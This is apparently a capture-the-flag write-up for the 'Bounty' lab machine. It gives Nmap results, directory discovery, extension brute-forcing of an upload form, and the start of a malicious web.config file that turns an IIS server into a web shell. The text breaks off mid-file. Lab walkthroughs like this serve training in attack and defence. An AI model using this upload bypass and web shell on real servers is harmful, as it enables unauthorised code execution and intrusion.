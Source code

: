 # Windows : Bounty : 10.10.10.93 : Easy

Nmap Results :

```
Nmap scan report for 10.10.10.93
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

Going to the page we see that its just an image, so lets check source code and nnothing really  pops up lets try doing a simple dirbust and we can see that there is a file called  trasnfers.aspx and a directory called UploadedFiles.

Uploading files on the page transfers.aspx we see that it denies us if we use extensions like aspx, etc.

So lets try using a small lsit to check which extensions are allowed to uploaded and to do this we can use Burp's Intruder mode which will help us brute force some common extesnions and see what extension we can use to upload our reverse shell.

Trying a simple list of extensions we see that the .config extension can be used to do this you can use a simple .config file that executes cmd commands via ASPX code i found this shell for .config files which gives us sort of a web shell.

Code for the .CONFIG web shell

```c#
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
         <handlers accessPolicy="Read, Script, Write">
                  <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />                            
      </handlers>
            <security>                                                                                                                                                                                                                           
         <requestFiltering>                                                                                                                                                                                                                
            <fileExtensions>                                                                                                                                                                                                               
               <remove fileExtension=".config" />                                                                                                                                                                                          
            </fileExtensions>                                                                                                                                                                                                              
            <hiddenSegments>                                                                                                                                                                                                               
               <remove segment="web.config" />                                                                                                                                                                                             
```
